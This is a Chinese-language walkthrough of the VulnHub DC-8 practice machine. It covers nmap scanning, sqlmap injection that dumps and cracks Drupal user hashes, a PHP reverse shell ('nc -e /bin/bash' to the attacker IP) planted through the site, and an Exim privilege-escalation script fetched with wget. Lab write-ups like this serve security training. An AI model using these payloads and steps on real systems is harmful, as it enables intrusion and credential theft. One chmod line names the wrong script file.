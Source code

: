 > 
>
> [DC-8官网地址]( https://www.vulnhub.com/entry/dc-8,367/)
>
> 

![image-20230809171934780](./imgs/image-20230809171934780.png)

### 信息收集



靶机MAC： 00:0C:29:3A:46:A1



**主机发现**



```shell
nmap -sP  192.168.80.0/24
```

![image-20230809172134027](./imgs/image-20230809172134027.png)

**端口扫描**

```shell
nmap -A -p- 192.168.80.142
```

![image-20230809172243707](./imgs/image-20230809172243707.png)

访问80端口

![image-20230809172336591](./imgs/image-20230809172336591.png)

点击页面能点击的地方，发现每点击一个链接，地址栏的`?nid=`后面的数字就会变

![image-20230809172456660](./imgs/image-20230809172456660.png)



尝试在数字后面加个 `'`引号，发现出现sql报错信息，就可以sql注入

![image-20230809172539702](./imgs/image-20230809172539702.png)

### 漏洞利用

**sqlmap**

列出所有数据库

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3 --level=5  --dbs --batch
```



![image-20230809173721854](./imgs/image-20230809173721854.png)

列出指定数据库的所有表

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3  --level=5 --random-agent  -D d7db --tables
```

![image-20230809173844344](./imgs/image-20230809173844344.png)

列出所有字段

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3  --level=5 --random-agent  -D d7db -T users --columns
```

![image-20230809173936157](./imgs/image-20230809173936157.png)

列出用户名和密码

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3  --level=5 --random-agent  -D d7db -T users -C name,pass --dump
```

![image-20230809174018217](./imgs/image-20230809174018217.png)

将两个密码放到`hash.txt`，借用`john`工具来解密

```shell
john hash.txt
```



![image-20230809174244527](./imgs/image-20230809174244527.png)

![image-20230809174317253](./imgs/image-20230809174317253.png)

使用`ssh`登录，发现没有权限

![image-20230809174810350](./imgs/image-20230809174810350.png)

然后爆破一下目录，找找登录的界面

```shell
dirsearch -u 192.168.80.142 -i 200
```

![image-20230809174914940](./imgs/image-20230809174914940.png)

使用`admin`用户登录，登录失败，那就换一个用户

![image-20230809174848608](./imgs/image-20230809174848608.png)

`john`用户登录成功

![image-20230809175002880](./imgs/image-20230809175002880.png)

找到可以提交`php`代码的地方，写入反弹shell

```php
<p>zzzzz</p>
<?php
@exec("nc -e /bin/bash 192.168.80.141 7777");
?> 
```

kali先开启 监听

![image-20230809191032412](./imgs/image-20230809191032412.png)

![image-20230809191054372](./imgs/image-20230809191054372.png)

往下滑动，保存配置

![image-20230809183905865](./imgs/image-20230809183905865.png)

![image-20230809183948074](./imgs/image-20230809183948074.png)

反弹成功！！

![image-20230809191144810](./imgs/image-20230809191144810.png)

### suid提权

```shell
find / -user root -perm /4000 2>/dev/null
```



![image-20230809191556479](./imgs/image-20230809191556479.png)

漏洞搜索

```shell
searchsploit exim 4.8
```



![image-20230809193731692](./imgs/image-20230809193731692.png)

找出绝对路径

```shell
 searchsploit -p linux/local/46996.sh 
```



![image-20230809193849194](./imgs/image-20230809193849194.png)

复制一份保存到桌面

```shell
cp /usr/share/exploitdb/exploits/linux/local/46996.sh  46996.sh 

```

![image-20230809194010510](./imgs/image-20230809194010510.png)

在桌面路径下开启http服务

```shell
python -m http.server 8080   
```

![image-20230809192423201](./imgs/image-20230809192423201.png)

在交互shell里`wget`下载

```shell
wget http://192.168.80.141:8080/46996.sh
```



![image-20230809194153729](./imgs/image-20230809194153729.png)



```shell
chmod 777 39535.sh
```

![image-20230809194251954](./imgs/image-20230809194251954.png)

查看`46996.sh`

![image-20230809194341594](./imgs/image-20230809194341594.png)

**提权**

![image-20230809194516772](./imgs/image-20230809194516772.png)

![image-20230809194546076](./imgs/image-20230809194546076.png)

提权虽然成功，但是它 过一会就自动没有root权限了
